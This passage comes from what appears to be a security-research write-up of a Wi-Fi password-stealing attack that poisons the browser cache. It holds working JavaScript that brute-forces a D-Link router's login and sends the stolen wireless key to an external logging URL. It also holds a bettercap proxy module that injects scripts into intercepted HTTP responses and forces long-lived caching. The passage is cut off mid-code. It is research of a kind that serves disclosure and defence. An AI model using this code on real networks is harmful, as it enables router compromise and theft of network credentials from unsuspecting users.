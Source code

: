 ```
								// WARNING: YOU MIGHT WANT TO CHANGE WHERE THE PASSWORD ENDS UP :-)
								var xhr3 = new XMLHttpRequest();
								xhr3.open('GET','https://rhaidiz.net/projects/dribble/dribble_logger.php?pwd'+wlanPsk);
								xhr3.send( null );
	            } catch (e) {
	              // Wrong password, let's try a different combination
	              i++
	              dlinkAttacker(combos[i].user, combos[i].pwd)
	            }
	          }
	        }
					// the body of the login request
	        var params = 'userName=' + username + '&language=IT&login=Login&userPwd=' + encPwd + '&nonce=' + nonce
	        xhr2.responseType = 'document'
	        xhr2.send(params);
	    }
	  };
	  xhr.responseType = 'document'
	  xhr.send(null);
	}

	// Start the attack from the first combination of username\password
	dlinkAttacker(combos[i].user, combos[i].pwd)
}
```

This page should be cached in client's browser and sent as coming from the router's IP address. Let's now put this code aside for a moment and let's discuss the network configuration that will allow to cache it.

As I just said, the JavaScript code above will be cached as coming from the router's IP address and will be loaded in an `iframe` that is created from another JavaScript that I inject in every JavaScript page that the client requestss in HTTP. To accomplish the interception and injection part, I use [bettercap](https://www.bettercap.org/). Bettercap allows to create HTTP proxy modules that can be used to program the HTTP proxy and tell it how to behave. For instance it is possible to intercepts responses before they are delivered to the client and decide what to inject, when to inject it and how ti inject. I've thus created a simple code, again in JavaScript, that is loaded in bettercap and performs the injection.

```
// list of common router's IP .. which definitely requires improvement
var routers = ["192.168.1.1", "192.168.0.1"]

// this function is called when the response is 
// received and can be sent back to the client
function onResponse(req, res) {
  // inject only responses containing JavaScript
  if(res.ContentType.indexOf('application/javascript') == 0 ){
    console.log("caching");
    console.log(req.Hostname)
    var body = res.ReadBody();
    // set caching header
    res.SetHeader("Cache-Control","max-age=86400");
    res.SetHeader("Content-Type","text/html");
    res.SetHeader("Cache-Control","public, max-age=99936000");
    res.SetHeader("Expires","Wed, 2 Nov 2050 10:00:00 GMT");
    res.SetHeader("Last-Modified","Wed, 2 Nov 1988 10:00:00 GMT");
    res.SetHeader("Access-Control-Allow-Origin:","*");
    
    // set payload
    var payload = "document.addEventListener(\"DOMContentLoaded\", function(event){\n";
    for(var i=0; i < routers.length; i++){
```